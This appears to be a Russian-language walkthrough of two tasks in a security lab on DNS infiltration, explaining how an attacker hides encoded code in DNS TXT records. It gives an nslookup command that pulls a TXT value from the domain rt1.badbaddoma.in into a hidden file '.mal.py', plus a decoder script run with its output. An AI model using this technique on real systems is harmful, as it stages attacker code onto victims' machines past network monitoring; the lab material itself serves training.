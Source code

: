 ## Задание 9
Введение

В этом сценарии злоумышленник собирается внедрить фрагмент «вредоносного» кода на компьютер жертвы. Существует множество различных методов, которые злоумышленники в реальном мире используют для достижения этой цели. Для упрощения я буду использовать запись TXT, настроенную на моем публичном сервере AWS DNS . Значение, содержащееся в этой записи, представляет собой закодированный «вредоносный» код.


Поскольку записи TXT ограничены 255 символами, хакеры, скорее всего, настроят несколько записей TXT для своего DNS- сервера. В конечном итоге это зависит от длины их кода. Теперь, когда все настроено и готово, все, что нужно сделать хакеру, это запросить эти записи TXT, захватить значение/значения, декодировать их и бум... теперь они внедрили свой собственный код в скомпрометированную систему через записи DNS TXT.



Ниже вы можете увидеть мою запись TXT.



Файлы, использованные для этой демонстрации

1. nslookup

Сначала будет выполнен поиск записи TXT для rt1.badbaddoma.in,  затем получено значение в кавычках, и, наконец, значение будет сохранено в файле с именем «.mal.py».

nslookup -type=txt rt1.badbaddoma.in | grep Za | cut -d \" -f2 > .mal.py

2. packageSimple.py ( https://github.com/kleosdc/dns-exfil-infil  )

Когда код попросит вас ввести «Имя файла», введите имя файла «.mal.py». Это файл, в котором мы сохранили закодированное значение.



python3 ~/packetySimple.py

Filename: .mal.py

[+] Reading from file...

[+] Base58 decoded.

[+] Base64 decoded.

[+] Done, .mal.py is decoded.

### Ответьте на вопросы ниже
Прочитайте вышеизложенное.
```commandline
Ответ не нужен
```

## Задание 10
Используйте ту же виртуальную машину из [Задания 7] DNS Exfiltration - Practice .

Прочитайте файл TASK, находящийся в  ~/challenges/infiltration/папке.
